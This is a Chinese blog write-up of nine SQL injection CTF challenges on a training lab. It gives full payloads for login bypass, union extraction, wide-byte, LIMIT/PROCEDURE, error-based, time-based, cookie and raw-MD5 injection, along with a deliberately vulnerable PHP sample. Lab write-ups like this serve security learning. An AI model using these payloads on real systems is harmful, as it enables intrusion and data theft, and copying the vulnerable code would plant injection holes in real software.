<!--yml
category: 未分类
date: 2022-04-26 14:21:38
-->

# CTF解题-网安实验室(注入关)_Tr0e的博客-CSDN博客

> 来源：[https://blog.csdn.net/weixin_39190897/article/details/100526788](https://blog.csdn.net/weixin_39190897/article/details/100526788)

# 万能密码

【第1题】[通关地址](http://lab1.xseclab.com/sqli2_3265b4852c13383560327d1c31550b60/index.php)

最简单的SQL注入
分值: 100
Tips：题目里有简单提示
【解题过程】

1.  查看网页源码，提示使用**admin**登录：
2.  直接上万能密码——`admin';#`、`admin' #`、`admin' or 1=1 #`密码随便输，登录成功：

# 联合查询

【第2题】[通关地址](http://lab1.xseclab.com/sqli3_6590b07a0a39c8c27932b92b0e151456/index.php)

最简单的SQL注入(熟悉注入环境)
分值: 100
【解题过程】

1.  查看网页源码，提示使用**id=1**：
2.  注入点测试，由下面测试过程判断存在**布尔盲注**：
3.  判断后台查询语句的字段数量(`order by 3`)，得出**字段数量为3**：
4.  查询出后台数据库中表的名称(`union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database())`)，结果为“**sae_user_sqli3**”：
5.  查出后台数据库表的列名(`union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='sae_user_sqli3')`)，结果为“**id,title,content**”：
6.  查出表中列的数值(`union select 1,2,(select group_concat(content) from sae_user_sqli3)`)，得出结果如下(**成功获得flag**)：

【注意】此题有一步到位的PayLoad：`?id=1 or 1=1`(万能密码）：


# 宽字节注入

【第3题】[通关地址](http://lab1.xseclab.com/sqli4_9b5a929e00e122784e44eddf2b6aa1a0/index.php)

名称：防注入(flag是随机序列）

背景：小明终于知道，原来黑客如此的吊，还有sql注入这种高端技术，因此他开始学习防注入！
【解题过程】

1.  查看网页源码，提示使用**id=1**：
2.  注入点测试，由下面测试过程判断存在**宽字节盲注**：
3.  判断后台查询语句的字段数量(`order by 3`)，得出**字段数量为3**：
4.  查询出后台数据库名称(`%bf' union select 1,database(),3%23`)，结果为“**mydbs**”：
5.  查询出后台数据库中表的名称(`%bf' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database())%23`)，结果为“**sae_user_sqli4**”：
6.  查出后台数据库表的列名(`%bf' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='sae_user_sqli4')%23`)，结果为“**id,title_1,content_1**”：
    故正确的查询语句为：`%bf' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name=0x7361655f757365725f73716c6934)%23`（十六进制串前面需要添加`0x`）：
7.  查出表中列的数值(`%bf' union select 1,2,(select group_concat(content_1) from sae_user_sqli4)%23`)，得出结果如下(**成功获得flag**)：
    

# Limit 注入

## 基础理论

【limit】

下面是几种limit的方法：原则看看下面几个例子应该就懂了。在数据库中很多地方都会用到，比如当你数据库查询记录有几万、几十万时使用limit查询效率非常快，只需要查询出你需要的数据就可以了·再也不用全表查询导致查询数据库崩溃的情况。

```
select * from Customer LIMIT 10;    --检索前10行数据，显示1-10条数据
select * from Customer LIMIT 1,10;  --检索从第2行开始，累加10条id记录，共显示id为2....11
select * from Customer limit 5,10;  --检索从第6行开始向前加10条数据，共显示id为6,7....15
select * from Customer limit 6,10;  --检索从第7行开始向前加10条记录，显示id为7,8...16 
```

一般实际过程中使用 **limit** 时，大概有两种情况，一种使用`order by`，一种就是不使用 `order by`关键字。

【1】**不存在 `order by` 关键字**

执行语句：`select id from users limit 0,1`

这种情况下的 limit 后面可以使用union进行联合查询注入。

执行语句：`select id from users limit 0,1 union select username from users`;

【2】**存在 `order by` 关键字**

执行语句：`select id from users order by id desc limit 0,1`;

此时后面再次使用union将会报错：
除了union 就没有其他可以使用的了吗？非也。

以下方法适用于**5.0.0< MySQL <5.6.6**版本，在limit语句后面的注入。

MySQL 5中的SELECT语法：

```
SELECT 
    [ALL | DISTINCT | DISTINCTROW ] 
      [HIGH_PRIORITY] 
      [STRAIGHT_JOIN] 
      [SQL_SMALL_RESULT] [SQL_BIG_RESULT] [SQL_BUFFER_RESULT] 
      [SQL_CACHE | SQL_NO_CACHE] [SQL_CALC_FOUND_ROWS] 
    select_expr [, select_expr ...] 
    [FROM table_references 
    [WHERE where_condition] 
    [GROUP BY {col_name | expr | position} 
      [ASC | DESC], ... [WITH ROLLUP]] 
    [HAVING where_condition] 
    [ORDER BY {col_name | expr | position} 
      [ASC | DESC], ...] 
    [LIMIT {[offset,] row_count | row_count OFFSET offset}] 
    [PROCEDURE procedure_name(argument_list)] 
    [INTO OUTFILE 'file_name' export_options 
      | INTO DUMPFILE 'file_name' 
      | INTO var_name [, var_name]] 
    [FOR UPDATE | LOCK IN SHARE MODE]] 
```

limit 关键字后面还可跟`PROCEDURE`和 `INTO`两个关键字，但是 INTO 后面写入文件需要知道绝对路径以及写入shell的权限，因此利用比较难，因此这里以`PROCEDURE`为例进行注入。

【**使用 `PROCEDURE`函数进行注入**】

ANALYSE支持两个参数，首先尝试一下默认两个参数：

```
mysql> select id from users order by id desc limit 0,1 procedure analyse(1,1);
ERROR 1386 (HY000): Can't use ORDER clause with this procedure 
```

报错，尝试一下对其中一个参数进行注入，这里首先尝试报错注入:

```
mysql> select id from users order by id desc limit 0,1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1);
ERROR 1105 (HY000): XPATH syntax error: ':5.5.53' 
```

成功爆出 mysql 版本信息，证明如果存在报错回显的话，可以使用报错注入在limit后面进行注入。

不存在回显怎么办，延迟注入呀！执行命令：

```
select id from users order by id limit 1,1 PROCEDURE analyse((select extractvalue(rand(),concat(0x3a,(if(mid(version(),1,1) like 5, BENCHMARK(5000000,SHA1(1)),1))))),1) 
```

如果 select version(); 第一个为5，则多次执行sha(1)达到延迟效果。这里使用 sleep 进行尝试，但均未成功，所以需要使用BENCHMARK进行替代。

## 结合报错注入

【第4题】[通关地址](http://lab1.xseclab.com/sqli5_5ba0bba6a6d1b30b956843f757889552/index.php?start=0&num=1)

名称：到底能不能回显

背景：小明经过学习，终于对SQL注入有了理解，她知道原来sql注入的发生根本原因还是数据和语句不能正确分离的原因，导致数据作为sql语句执行；但是是不是只要能够控制sql语句的一部分就能够来利用获取数据呢？小明经过思考知道，where条件可控的情况下，实在是太容易了，但是如果是在limit条件呢？

【解题过程】

1.  熟悉网页：改变start发现页面内容会发生变化，进而了解到start参数为limit关键词底下用于显示数据库中数据`id=start`的数据：
2.  注入点判断：确定start参数存在注入：
    
3.  结合前面的理论基础，直接对`Limit`进行报错注入：`procedure analyse(extractvalue(1,concat(0x7e,version())),1);%23`
    
4.  爆出当前数据库名称：`procedure analyse(extractvalue(1,concat(0x3a,(select database()))),1);%23`
    
5.  爆出当前数据库中的第一个表的名称：`procedure analyse(extractvalue(1,concat(0x3a,(select table_name from information_schema.tables where table_schema ='mydbs' limit 0,1))),1);%23`
    没事，使用十六进制即可：`procedure analyse(extractvalue(1,concat(0x3a,(select table_name from information_schema.tables where table_schema =0x6d79646273 limit 0,1))),1);%23`
    去掉PayLoad的`limit 0,1`，尝试看看数据库是否只有一个表：`procedure analyse(extractvalue(1,concat(0x3a,(select table_name from information_schema.tables where table_schema =0x6d79646273))),1);%23`更改`limit 0,1`为`limit 1,1`，查看第二个表名：`procedure analyse(extractvalue(1,concat(0x3a,(select table_name from information_schema.tables where table_schema =0x6d79646273 limit 1,1))),1);%23`
    
6.  赌一把，爆出`user`表的字段的名称（需要对‘mydbs’和’user’做16进制转换）：`procedure analyse(extractvalue(1,concat(0x3a,(select group_concat(column_name) from information_schema.columns where table_schema =0x6d79646273 and table_name = 0x75736572))),1);%23`
7.  接下来爆一爆**username**和**password**的字段值，最终在数据库第三列数据(`limit 2,1`)获得了Flag：`procedure analyse(extractvalue(1,concat(0x3a,(select concat(username,0x7e,password) from mydbs.user limit 2,1))),1);%23`

# 图片链接注入

【第5题】[通关地址](http://lab1.xseclab.com/sqli6_f37a4a60a4a234cd309ce48ce45b9b00/)

名称：邂逅

背景：小明今天出门看见了一个漂亮的帅哥和漂亮的美女，于是他写到了他的日记本里。
【解题过程】

1.  鼠标右键点击查看图片，查看图片URL链接：
2.  尝试直接注入：
3.  那就尝试改用BurpSuite抓包，刷新图片并抓包，此时遇到麻烦了，居然抓不到包！！后来发现原因了，在BP去掉该拦截过滤选项即可：
    捕获的请求包：
4.  开始对注入点进行测试，发现是宽字节注入（但后面可以发现不属于盲注，可以用`union`直接获得回显）：
    
5.  使用`order by`语句判断后台查询语句的字段数量，发现为4：
6.  测试可回显的字段位置并**爆出当前数据库名称**：`%bf' union select 1,2,database(),4%23`
7.  爆出当前数据库的表名：`%df' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database()),4--+`，
8.  尝试爆出表**pic**的列名，不知道为何爆不出来，查看答案知道目标为**picname**列：`%df' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name=0x706963a),4%23`
9.  爆出表"**pic**"的**picname**列值，得到Flag的名称：`%df' union select 1,2,(select group_concat(picname) from pic),4--+`
10.  访问图片地址，获得Flag：
    

# 报错型盲注

【第6题】[通关地址](http://lab1.xseclab.com/sqli7_b95cf5af3a5fbeca02564bffc63e92e5/index.php?username=admin)

名称：ErrorBased
背景：本题目为手工注入学习题目，主要用于练习基于Mysql报错的手工注入。Sqlmap一定能跑出来，所以不必测试了。
【解题过程】

1.  注入点测试：
2.  爆出当前数据库名称：`' and extractvalue(1,concat(0x7e,(select database()))) %23`
3.  爆出当前数据库中第1-3个表(加了`limit` 逐一查询)的名称：`' and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema = 'mydbs' limit 0,1)))--+`
4.  爆出motto表的字段的名称：`' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema = 'mydbs' and table_name = 'motto')))--+`
    
5.  逐一爆出`motto`字段值，获得Flag：`' and extractvalue(1,concat(0x7e,(select motto from motto limit 0,1)))--+`
    

# 时间型盲注

【第7题】[通关地址](http://lab1.xseclab.com/sqli7_b95cf5af3a5fbeca02564bffc63e92e5/blind.php)

名称：盲注
背景：今天我们来学习一下盲注.小明的女朋友现在已经成了女黑阔,而小明还在每个月拿几k的收入,怎么养活女黑阔…so:不要偷懒哦!
【解题过程】

1.  注入点测试：在URL后面添加`?username=admin`：故意输入非法字符，SQL报错：
    
2.  此题目为时间型盲注，输入`' and sleep(5) --+`，导致页面加载5秒才出来：
3.  猜解数据库名称的长度：`' and if(length(database())=5,sleep(3),1) --+`

时间型盲注会占用大量时间进行猜测，一般需要用脚本自动跑或者使用SQLMap，手工一步一步爆出数据将占用大量精力。本文不再继续做下去了，具体的时间盲注手工注入的方法可以参见博文：[渗透测试-SQL注入漏洞(时间盲注)](https://blog.csdn.net/weixin_39190897/article/details/100122200)

# Cookie 注入

【第8题】[通关地址](http://lab1.xseclab.com/sqli8_f4af04563c22b18b51d9142ab0bfb13d/index.php?id=1)

名称：SQL注入通用防护
背景：小明写了一个博客系统,为了防注入,他上网找了一个SQL注入通用防护模块,**GET/POST都过滤**了哦!
【解题过程】

1.  尝试直接对id参数进行注入，发现过滤了（题目也提醒了）：
2.  刷新网页，抓包：
3.  尝试Cookie注入，在Cookie中添加id参数，发现注入点：
4.  使用order by 语句判断查询字段数量，结果为3：
5.  使用union语句尝试回显爆出数据库名称：
6.  接下来……额不说了，直接可以用union获得回显，操作如同题目3。直接给出最后的**Payload**：`union select 1,2,group_concat(username,0x7e,password) from mydbs.sae_manager_sqli8`

# MD5绕过注入

【第9题】[通关地址](http://lab1.xseclab.com/code1_9f44bab1964d2f959cf509763980e156/)

名称：据说哈希后的密码是不能产生注入的
背景: 代码审计与验证

【解题过程】

查看网页源代码：源码如下：

```
include "config.php";

if(isset($_GET['userid']) && isset($_GET['pwd'])){

    $strsql="select * from `user` where userid=".intval($_GET['userid'])." and password='".md5($_GET['pwd'], true) ."'";

    $conn=mysql_connect($dbhost,$username,$pwd);
    mysql_select_db($db,$conn);
    $result=mysql_query($strsql);
    print_r(mysql_error());
    $row=mysql_fetch_array($result);
    mysql_close($conn);
    echo "<pre>";
    print_r($row);

    echo "</pre>";
    if($row!=null){
        echo "Flag: ".$flag;
    }

}
else{
    echo "PLEASE LOGINT!";
}
echo "<noscript>";
echo file_get_contents(__FILE__); 
```

这里有一个需要注意的地方：

1.  `MD5("123456")`------>e10adc3949ba59abbe56e057f20f883e //正常的
2.  `MD5("123456",ture)`------>� �9I�Y��V�W���> //出来的就是一堆乱码，（乱码可以绕过这里的查询）

如果出来的乱码中有 ‘`or`’ ，那么就可以直接使查询语句变为：

```
 where usrid='XXX' and password=' ' or' <xxx>'" 
```

那么有有没有这样的东西呢，百度就可以得到这样的一个字符串：**ffifdyop**

这样这道题就很简答了，直接上payload：http://lab1.xseclab.com/code1_9f44bab1964d2f959cf509763980e156/`?userid=1&pwd=ffifdyop`
